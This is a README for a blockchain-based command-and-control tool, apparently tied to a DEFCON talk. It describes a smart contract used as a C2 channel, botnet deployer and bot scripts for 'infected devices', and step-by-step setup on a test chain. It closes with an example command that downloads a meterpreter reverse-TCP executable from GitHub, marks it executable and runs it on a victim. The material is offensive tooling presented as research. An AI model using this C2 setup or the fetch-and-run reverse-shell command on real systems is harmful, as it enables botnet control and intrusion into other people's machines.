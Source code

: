 # DAPPin that A$$ | A Blockchain Enabled C2 Solution


A C2 solution that lives in the blockchain as a DAPP.

Core Contents:
* [SpectralCommandRelay.sol](SpectralCommandRelay.sol): Smart Contract that can be deployed to the blockchain to act as a C2 channel
* [bot_deployer.py](bot_deployer.py): Script that generates & manages a local botnet
* [bot_minimal.py](bot_minimal.py): An incredibly simple endpoint for our C2 blockchain solution to be run on infected devices
* [bot_template.py](bot_template.py): Template for a more advanced endpoint for our C2 blockchain solution to be run on infected devices

Demo Contents:
* [SCR_Demo_Meter.rc](SCR_Demo_Meter.rc): MSFConsole init script used in our local botnet demo
* [cleanup.sh](cleanup.sh): Script to cleanup any lingering meterpreter sessions after our demo

Presentation Contents:
* [DAPPin_that_A$$_DEFCON_Submission_BlockchainC2.pptx](DAPPin_that_A$$_DEFCON_Submission_BlockchainC2.pptx): The powerpoint we sent to the DEFCON Talks Panel



# How to Play

* Get setup with a web3 wallet, the [Metamask](https://chrome.google.com/webstore/detail/metamask/nkbihfbeogaeaoehlefnkodbefgpgknn) chrome plugin is pretty quick and straight forward
* Grab [SpectralCommandRelay.sol](SpectralCommandRelay.sol) and paste it into [https://remix.ethereum.org/](https://remix.ethereum.org/).
* Compile our .sol script
* Switch your web3 provider to "Injected Web3" and set your network to the "Rinkeby" testchain.
* Either deploy an instance of the relay or "Load at address" 0x69429FB223b3BA3D5823B980E590bF857a680c13
* Grab some [scratch on rinkeby](https://faucet.rinkeby.io/) and start sending commands

An Example command that installs and runs a meterpreter shell on an infected device which is running our [bot_minimal.py](bot_minimal.py) script
```
0~wget https://github.com/Cooperw/meterpreter_executables/raw/main/linux_x64_meterpreter_reverse_tcp_local_4444.elf; chmod +x linux_x64_meterpreter_reverse_tcp_local_4444.elf; ./linux_x64_meterpreter_reverse_tcp_local_4444.elf
```

